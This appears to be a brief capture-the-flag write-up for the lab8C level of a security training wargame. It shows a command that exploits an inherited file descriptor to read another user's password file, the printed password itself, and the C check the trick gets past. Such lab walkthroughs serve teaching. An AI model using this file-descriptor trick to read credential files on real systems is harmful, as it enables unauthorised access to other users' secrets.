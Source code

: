 # lab8C
> After the first three standard file descriptors, each additional file descriptor will be increased by one.(e.g. 3, 4, 5, etc.). 
> http://www.phearless.org/istorija/razno/fdleak.txt

```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fn=/home/lab8B/.pass -fd=3
"<<<For security reasons, your filename has been blocked>>>" is lexicographically equivalent to "3v3ryth1ng_Is_@_F1l3
"
```
File descriptor: 
```sh
fd = 3
```
bypasses:
```c
if(fd1 == 0 || fd2 == 0)
	{
		printf("Invalid fd argument.\n");
		printf("(We're still fixing some bugs with using STDIN.)\n");
		printf("Usage: %s {-fn=<filename>|-fd=<file_descriptor>} {-fn=<filename>|-fd=<file_descriptor>}\n", argv[0]);
		return EXIT_FAILURE;
	}
```

